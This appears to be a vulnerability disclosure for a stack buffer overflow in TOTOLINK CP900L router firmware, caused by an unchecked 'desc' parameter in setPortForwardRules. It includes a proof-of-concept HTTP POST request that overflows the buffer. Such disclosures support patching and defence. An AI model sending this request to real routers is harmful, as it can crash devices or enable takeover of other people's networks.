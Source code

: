 # TOTOLINK CP900L V4.1.5cu.798_B20221228 stack overflow

### Product Information

Product: TOTOLINK CP900L Firmware Version: V4.1.5cu.798_B20221228  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

In the function setPortForwardRules, attackers can post the parameter desc without checking its' length, which can lead to buffer overflows in the following strcpy function.

![image-20240525133036413](./image-20240525133036413.png)

![image-20240525133053163](/image-20240525133053163.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close


{
    "topicurl": "setting/setPortForwardRules",
    "addEffect": "0",
    "desc": "a"*0x100
}

```




